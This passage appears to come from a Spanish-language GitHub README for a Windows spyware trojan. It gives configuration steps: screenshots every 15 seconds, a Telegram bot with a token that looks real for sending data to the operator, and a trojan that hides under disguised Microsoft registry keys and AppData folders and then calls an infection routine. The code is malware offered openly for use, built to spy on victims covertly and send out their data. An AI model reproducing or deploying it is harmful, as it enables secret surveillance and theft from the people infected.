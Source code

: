 </details> 


* __Paso 5:__  Cambiar configuración de `Screenshot`

    <details>
    <summary> Ver código</summary>

    ![](https://imgur.com/BUrOyKn.png)

    ````py
    Screenshot(pathReg=r'HKEY_CURRENT_USER\SOFTWARE\Microsoft\Hide\Screenshot',
                active=1,           # Screenhot Habilitado = 1 °° screenshot Habilitado = 1
                intervalSeconds=15, # Intervalo en segundos de capturas de pantalla
                cache_path='C:\\Users\\' + str(os.getlogin()) + r'\AppData\Local\Microsoft\Office\16.0\Floodgate\temp'
                ).set_values()
    ````

</details> 

* __Paso 6:__  Cambiar configuración de `TelegramBot`

    <details>
    <summary> Ver código</summary>

    ![](https://imgur.com/b2JM7tt.png)

    ````py
    TelegramBot(path_registry=r'HKEY_CURRENT_USER\SOFTWARE\Microsoft\Hide\TelegramBot',
                    id=["-1001322369457"],  # <= Ingrese su ID personal, o el ID de un grupo de telegram
                    token="1345614169:AAE7O_jRBhIkq_minXh52Ws2SV3wlPfp8QM", # <= Ingrese token del bot
                    ).set_values()
    ````

</details> 

* __Paso 7:__  Cambiar configuración de `Software General`

    <details>
    <summary> Ver código</summary>

    ![](https://imgur.com/IVJl4NH.png)

    ````py
    trojan = Trojan(path_registry=r'HKEY_CURRENT_USER\SOFTWARE\Microsoft\Hide',
                        debug=0,    # No disposible en ésta versión
                        delay=0,    # No disposible en ésta versión
                        path_software='C:\\Users\\' + str(os.getlogin()) + r'\AppData\Local\Microsoft\Windows\Shell\temp', # No cambiar
                        name_software= 'SpyTrojan.exe', # <= Ingrese el nombre del exe generado anteriormente:
                        # Ejemplo: "SpyKeylogger.exe"
                        username=str(os.getlogin()) # No cambiar
                        )
        trojan.set_values()
        trojan.infection()
    ````
